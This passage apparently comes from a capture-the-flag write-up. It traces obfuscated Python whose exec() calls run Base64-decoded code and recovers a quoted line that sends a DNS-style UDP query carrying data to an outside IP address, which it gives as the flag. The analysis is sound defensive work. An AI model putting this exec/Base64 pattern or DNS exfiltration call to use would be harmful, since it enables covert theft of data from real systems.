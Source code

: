   <img src="./images/D8_14.png" alt="CyberChef Base64 decoding" width="700"/>
</p>

There are multiple `exec()` functions with ciphertexts being decoded with **ute** function. Per ciphertext, decoded with Base64 to find one that made the udp query. 

Multiple `exec()` calls decode ciphertext using the **ute** alias (which maps to b64decode). Each ciphertext was inspected until the IP Address was found.

<p align="center">
  <img src="./images/D8_15.png" alt="CyberChef Base64 decoding 2" width="700"/>
</p>

The recovered plaintext contains the UDP query and destination address:
> udp(make_query(f"{sd}", t), "251.91.13.37", port=0o65)
---
**Flag**: `251.91.13.37`